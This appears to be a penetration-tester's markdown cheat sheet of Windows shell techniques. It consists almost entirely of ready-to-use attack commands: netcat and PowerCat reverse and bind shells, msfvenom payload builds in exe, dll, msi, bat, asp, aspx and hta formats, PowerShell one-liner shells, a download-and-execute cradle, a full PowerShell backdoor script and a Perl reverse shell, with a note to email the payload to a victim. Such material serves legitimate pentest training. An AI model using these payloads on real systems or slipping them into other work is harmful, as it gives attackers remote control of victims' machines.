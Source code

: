 #### CMD nc command

![[rlwrap]]

```command prompt - windows
nc64.exe -nv $KALI 443 -e cmd.exe
```

```command prompt - windows
nc.exe -nv $KALI 80 -e C:\WINDOWS\System32\cmd.exe
```

#### PowerShell nc command
```powershell - windows
.\nc64.exe -nv $KALI 443 -e cmd.exe
```

### MSFVenom

Staged - Sends payload in stages, can be less stable.
	windows/meterpreter/reverse_tcp
	
Stageless - Sends exploit shellcode all at once, larger in size, won't always work.
	windows/meterpreter_reverse_tcp

#### Staged Payloads - WILL NOT WORK WITH NC!
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f exe > reverse86.exe
```

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > reverse64.exe
```
	
#### Stageless Payloads
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > reverse86.exe
```

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe > reverse64.exe
```

#### DLL
[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#SMB File Transfer]]

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll -o reverse86.dll
```

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll -o reverse64.dll
```

[[rlwrap]]

```command prompt - target
rundll32.exe \\$KALI\share\reverse.dll ,0
```

#### msi
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f msi -o reverse86.msi
```

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f msi -o reverse64.msi
```

#### bat
```bash - kali
msfvenom -p windows/shell/reverse_tcp lhost=$KALI lport=443 > shell86.bat
```

```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp lhost=$KALI lport=443 > shell64.bat
```

#### asp
```bash - kali
msfvenom -p windows/shell/reverse_tcp lhost=$KALI lport=443 -f asp > shell86.asp
```

```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp lhost=$KALI lport=443 -f asp > shell64.asp
```

#### aspx
```bash - kali
msfvenom -p windows/shell/reverse_tcp lhost=$KALI lport=443 -f aspx > shell86.aspx
```

```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp lhost=$KALI lport=443 -f aspx > shell64.aspx
```

#### .hta file:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o reverse.hta
```

Upload / email file, then wait!

#### .hta raw:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh
```

#### PowerShell 1 liner

```
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1
```

save as Shelly.ps1
```powershell - windows
$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```command prompt - windows
cmd /c powershell -c C:\Windows\system32\Temp\Shelly.ps1
```

#### Invoke-PowerShell.ps1

```bash - kali
sudo git clone https://github.com/samratashok/nishang
```

```bash - kali
locate Invoke-PowerShellTcp.ps1
```

```bash - kali
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
```

Add the following line to the very bottom:
```bash - kali
Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 443
```

Transfer and execute on windows victim.

```powershell - windows
powershell iex (New-Object Net.WebClient).DownloadString('http://$KALI/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 443
```

#### PowerShell Reverse Shell
```powershell - windows
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### PowerShell Bind Shell
```powershell - windows
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

#### Powershell reverse TCP
```powershell - windows
Write-Host "########################################################################";
Write-Host "#                                                                      #";
Write-Host "#                        PowerShell Reverse TCP v3.6                   #";
Write-Host "#                                          by Ivan Sincek              #";
Write-Host "#                                                                      #";
Write-Host "# GitHub repository at github.com/ivan-sincek/powershell-reverse-tcp.  #";
Write-Host "# Feel free to donate bitcoin at 1BrZM6T7G9RN8vbabnfXu4M6Lpgztq6Y14.   #";
Write-Host "#                                                                      #";
Write-Host "########################################################################";
$client = $stream = $buffer = $writer = $data = $result = $null;
try {
	# change the host address and/or port number as necessary
	$client = New-Object Net.Sockets.TcpClient("127.0.0.1", 9000);
	$stream = $client.GetStream();
	$buffer = New-Object Byte[] 1024;
	$encoding = New-Object Text.AsciiEncoding;
	$writer = New-Object IO.StreamWriter($stream);
	$writer.AutoFlush = $true;
	Write-Host "Backdoor is up and running...";
	Write-Host "";
	$bytes = 0;
	do {
		$writer.Write("PS>");
		do {
			$bytes = $stream.Read($buffer, 0, $buffer.Length);
			if ($bytes -gt 0) {
				$data = $data + $encoding.GetString($buffer, 0, $bytes);
			}
		} while ($stream.DataAvailable);
		if ($bytes -gt 0) {
			$data = $data.Trim();
			if ($data.Length -gt 0) {
				try {
					$result = Invoke-Expression -Command $data 2>&1 | Out-String;
				} catch {
					$result = $_.Exception | Out-String;
				}
				Clear-Variable -Name "data";
				$length = $result.Length;
				$count = 0;
				$bytes = $buffer.Length;
				while ($length -gt 0) {
					if ($length -lt $buffer.Length) {
						$bytes = $length;
					}
					$writer.Write($result.substring($count, $bytes));
					$count += $bytes;
					$length -= $bytes;
				}
				Clear-Variable -Name "result";
			}
		}
	} while ($bytes -gt 0);
	Write-Host "Backdoor will now exit...";
} catch {
	Write-Host $_.Exception.InnerException.Message;
} finally {
	if ($writer -ne $null) {
		$writer.Close(); $writer.Dispose();
		Clear-Variable -Name "writer";
	}
	if ($stream -ne $null) {
		$stream.Close(); $stream.Dispose();
		Clear-Variable -Name "stream";
	}
	if ($client -ne $null) {
		$client.Close(); $client.Dispose();
		Clear-Variable -Name "client";
	}
	if ($buffer -ne $null) {
		$buffer.Clear();
		Clear-Variable -Name "buffer";
	}
	if ($result -ne $null) {
		Clear-Variable -Name "result";
	}
	if ($data -ne $null) {
		Clear-Variable -Name "data";
	}
	[System.GC]::Collect();
}
```

Change the $client IP an port details.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[4._File Transfers#Certutil]]

#### PowerCat
```powershell - windows
powershell -ep bypass
```

```powershell - windows
. .\powercat.ps1
```

#### PowerCat Reverse Shell
```powershell - windows
powercat -c $KALI -p 443 -e cmd.exe
```

#### PowerCat Bind Shell
```powershellz - windows
powercat -l -p 443 -e cmd.exe
```

#### PowerCat Stand-Alone payloads
```powershell - windows
powercat -c $KALI -p 443 -e cmd.exe -g > reverseshell.ps1
```

```powershell - windows
./reverseshell.ps1
```

#### PowerCat Encoded Reverse Shell
```powershell - windows
powercat -c $KALI -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```

```powershell - windows
type encodedreverseshell.ps1
```

```powershell - windows
powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZ
```

#### Perl
```powershell - windows
use Socket;$i="$KALI";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("cmd");};
```
